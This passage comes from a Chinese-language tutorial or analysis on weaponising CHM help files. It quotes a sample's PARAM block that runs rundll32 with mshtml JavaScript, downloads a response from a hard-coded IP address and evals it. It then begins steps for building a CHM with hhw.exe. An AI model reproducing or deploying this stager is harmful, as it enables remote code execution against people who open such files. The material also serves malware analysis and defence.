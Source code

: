   样本使用 Item1.value 值 (执行指令)，更多的高级用法其实是在 html 里编写 js 脚本强混淆都可以执行，扩展性很好，它支持 html 可以内嵌（js）。

```plain
<PARAM name="Command" value="ShortCut">
 <PARAM name="Button" value="Bitmap::shortcut">
 <PARAM name="Item1" value=',rundll32.exe,javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://23.83.243.205:8081/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}'>
 <PARAM name="Item2" value="273,1,1">
```

-   下载安装：
    
    ```plain
    https://docs.microsoft.com/zh-cn/previous-versions/windows/desktop/htmlhelp/microsoft-html-help-downloads
    ```
    

[![](assets/1708482417-77e32becd7b4d8d8b2ea537aa4947098.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220084736-a3f0f126-cf89-1.png)

  打开 hhw.exe，File-New-Project，下一步/下一步选择路径/下一步 htm/选择添加利用文件：
